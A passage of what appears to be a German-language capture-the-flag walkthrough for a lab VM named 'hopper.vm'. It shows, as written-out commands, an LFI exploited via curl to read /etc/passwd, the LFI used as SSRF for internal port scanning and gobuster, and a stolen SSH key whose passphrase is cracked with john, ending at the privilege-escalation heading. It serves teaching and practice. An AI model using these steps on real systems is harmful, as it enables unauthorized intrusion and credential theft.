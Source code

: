 1.  **Netzwerk-Scan und Host-Konfiguration:**
    *   Die Ziel-IP wurde als `192.168.2.131` identifiziert.
    *   Der Hostname `hopper.vm` wurde der lokalen `/etc/hosts`-Datei hinzugefügt.

2.  **LFI-Identifizierung:**
    *   `wfuzz` wurde verwendet, um eine Local File Inclusion (LFI)-Schwachstelle im Skript `/advanced-search/path.php` über den Parameter `path` zu finden (z.B. `path.php?path=file://[DATEIPFAD]`).
    *   Die LFI wurde durch Abrufen von `/etc/passwd` bestätigt (`curl http://hopper.vm/advanced-search/path.php?path=file:///etc/passwd`), wodurch die Benutzer `root`, `edward` und `henry` identifiziert wurden.

3.  **Interner Portscan via SSRF:**
    *   Die LFI-Schwachstelle wurde als Server-Side Request Forgery (SSRF) genutzt, um interne Ports auf `127.0.0.1` zu scannen. Ein Python-Skript wurde verwendet, um Anfragen wie `path.php?path=http://127.0.0.1:[PORT]` zu senden.
    *   Dieser Scan (oder manuelle Versuche) identifizierte einen offenen Dienst auf Port `2222` (`http://127.0.0.1:2222`).

4.  **Directory Busting auf internem Dienst via SSRF:**
    *   `gobuster dir` wurde durch die SSRF getunnelt, um den Dienst auf `127.0.0.1:2222` zu enumerieren:
        ```bash
        gobuster dir -u http://hopper.vm/advanced-search/path.php?path=http://127.0.0.1:2222 -w [...]
        ```
    *   Dies führte zum Fund des Pfades `/backup` auf dem internen Dienst.

---

## Phase 2: Initial Access (SSH Key via SSRF)

1.  **Extraktion des SSH-Schlüssels:**
    *   Durch Abrufen von `http://hopper.vm/advanced-search/path.php?path=http://127.0.0.1:2222/backup` wurde ein privater SSH-Schlüssel gefunden.
    *   Der Schlüssel wurde lokal als `idid` gespeichert und die Berechtigungen auf `600` gesetzt.

2.  **Knacken der SSH-Schlüssel-Passphrase:**
    *   `ssh2john idid > idhash` extrahierte den Hash des passwortgeschützten Schlüssels.
    *   `john --wordlist=/usr/share/wordlists/rockyou.txt idhash` knackte die Passphrase: `barcelona`.

3.  **SSH-Login als `edward`:**
    *   Mit dem Schlüssel `idid` und der Passphrase `barcelona` wurde ein SSH-Login als `edward` durchgeführt:
        ```bash
        ssh -i idid edward@hopper.vm
        # Passphrase: barcelona
        ```
    *   Initialer Zugriff als `edward` wurde erlangt.

---

## Phase 3: Privilege Escalation (Kette)
